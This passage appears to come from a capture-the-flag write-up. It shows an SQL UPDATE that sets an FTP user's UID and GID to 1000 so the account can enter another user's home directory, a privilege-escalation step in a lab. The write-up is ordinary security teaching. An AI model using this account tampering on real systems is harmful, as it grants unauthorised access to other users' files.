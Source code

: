 ![alt text](../assets/image_ten/5er.png)

Ok nice, now let's try to modify the UID of our ftp user to access to ```/home/tyrell```

By changing the UID like that : 

```sql
UPDATE users
SET uid = 1000, gid = 1000
WHERE user = 'ten-b94344ef';
```
We can now go in ```/home/tyrell```

![alt text](../assets/image_ten/6er.png)
